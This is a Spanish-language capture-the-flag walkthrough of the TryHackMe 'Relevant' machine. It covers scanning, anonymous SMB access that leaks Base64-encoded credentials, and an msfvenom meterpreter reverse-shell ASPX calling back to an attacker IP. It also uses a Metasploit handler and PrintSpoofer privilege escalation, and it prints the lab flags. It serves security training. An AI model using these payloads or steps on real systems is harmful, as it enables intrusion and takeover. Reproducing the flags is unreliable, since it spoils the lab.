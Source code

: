 # Relevant

## Escaneo de puertos

Realizamos primero un escaneo de puertos para ver los puertos abiertos de la máquina vulnerable.

```
nmap -A -sV -sC -T4 -p- 10.10.121.56
```

Después de esperar unos minutos tenemos los siguientes resultados:

![Escaneo de puertos](./images/Pasted_image_202502222121956.png)

Y estos son los resultados del script de`nmap`.

![[Pasted image 20250222121902.png]]

## Enumerating

Tenemos un servicio HTTP por el puerto 80. Sólo nos aparece la página por defecto de Microsoft IIS.

![[Pasted image 20250222122114.png]]

Vamos a enumerar los directorios con`gobuster`.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.121.56
```

![[Pasted image 20250222124555.png]]

Pero no encontramos nada relevante.

Ahora probamos a enumerar con SMB. Usamos el siguiente comando:

```
smbclient -L 10.10.121.56
```

Accedemos como anónimo y nos muestra los siguientes resultados en los que vemos que hay un sharename llamado`nt4wrksv`.

![[Pasted image 20250222123358.png]]

Probamos a acceder:

```
smbclient \\\\10.10.121.56\\nt4wrksv
```

![[Pasted image 20250222123524.png]]

Listamos el contenido de la ubicación en la que estamos y hay un archivo de`passwords.txt`.

![[Pasted image 20250222123614.png]]

Nos los descargamos y salimos.

```
get passwords.txt
```

![[Pasted image 20250222123702.png]]

Mostramos el contenido en el anfitrión.

![[Pasted image 20250222123727.png]]

Y vemos que claramente está codificado en Base64. Decodificamos con el siguiente comando:

```
echo -n Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d 
```

![[Pasted image 20250222123850.png]]

El usuario es`Bob`y la contraseña es`!P@$$W0rD!123`.

Y la de Bill también tenemos:

`bill`

```
Juw4nnaM4n420696969!$$$
```

![[Pasted image 20250222123958.png]]

Hacemos otro escaneo de`nmap`para determinar qué vulnerabilidades hay:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.121.56
```

El servidor de Samba es probablemente vulnerable a RCE por el **CVE-2017-0143**.

![[Pasted image 20250222125516.png]]
## Exploitation

Vamos a usar`msfvenom`para crear una reverse shell aprovechándonos del exploit.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.3.33 lport=4444 -f aspx -o shell.aspx
```

![[Pasted image 20250222130621.png]]

Subimos la reverse shell al network share.

```
put shell.aspx
```

![[Pasted image 20250222131746.png]]

Iniciamos un puerto en escucha en Metasploit:

```
msfconsole -q
```

Usamos el siguiente exploit:

```
use exploit/multi/handler
```

Cargamos el payload que queremos:

```
set payload windows/x64/meterpreter_reverse_tcp
```

Configuramos la IP y el puerto con la de Kali en la VPN.

```
set lhost 10.8.3.33
set lport 4444
```

Ejecutamos el exploit:

```
run
```

![[Pasted image 20250222132122.png]]

Abrimos la shell en la víctima

```
curl http://10.10.160.251:49663/nt4wrksv/shell.aspx 
```

Y se nos inicia la consola de meterpreter que estaba en escucha.

![[Pasted image 20250222134122.png]]

La flag de users está en la siguiente ubicación:

```
cat c:/users/bob/desktop/user.txt
```

![[Pasted image 20250222134239.png]]

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Escalada de privilegios

Comprobamos los privilegios que tiene la sesión de meterpreter.

![[Pasted image 20250222134526.png]]

Tenemos el de`SeImpersonatePrivilege`.

Nos descargamos`PrintSpoofer64.exe`.

https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Y subimos el archivo.

![[Pasted image 20250222135514.png]]

Nos ubicamos donde está el PrintSpoofer64.exe y lo ejecutamos.

```
PrintSpoofer64.exe -i -c powershell.exe
```

![[Pasted image 20250222140243.png]]

Finalmente, obtenemos la flag del root.

![[Pasted image 20250222140501.png]]

```
THM{1fk5kf469devly1gl320zafgl345pv}
```


